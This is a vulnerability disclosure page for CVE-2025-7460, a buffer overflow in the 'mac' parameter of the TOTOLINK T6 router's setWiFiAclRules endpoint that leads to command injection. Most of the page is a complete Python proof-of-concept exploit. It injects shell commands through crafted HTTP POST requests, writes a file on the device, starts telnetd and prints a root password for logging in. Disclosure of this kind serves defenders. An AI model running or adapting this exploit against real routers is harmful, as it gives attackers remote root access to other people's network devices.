



# [CVE-2025-7460](https://www.cve.org/CVERecord?id=CVE-2025-7460)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to command injection. This vulnerability can be triggered through the topicurl `setWiFiAclRules`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `mac` parameter can cause a buffer overflow of `local_mac` due to the lack of length validation.



Buffer `local_mac` can overflow to buffer `wlan_interface_1`



So that we can control buffer `wlan_interface_1` to trigger command injection



# POC

```python
import requests, time, sys, os
import socket
import http.server
import socketserver
import threading

def execute_short_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setWiFiAclRules",
        "addEffect":"2",
        "mac":"AAAAAAAAAAAAAAAA;%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
def enable_telnetd(target_ip):
    return execute_short_command(target_ip, "telnetd")

def write_file(target_ip, script, file_path):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    for c in script:
        payload = "echo -n '%s'>>%s" % (c, file_path)
        execute_short_command(target_ip, payload)
        
if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]
    
    execute_short_command(target_ip, "rm /tmp/n")
    print("[+] Writing file. Please wait...")
    
    write_file(target_ip, "pwned by Elvis!!!", "/tmp/n")
    
    print("[+] File Wrote. Check '/tmp/n' file")
    
    enable_telnetd(target_ip)
    print("[+] BOF -> Command injection turn telnetd on. Try root/KL@UHeZ0")
```

[Video](https://www.youtube.com/watch?v=x_Qc6wtcdbk)

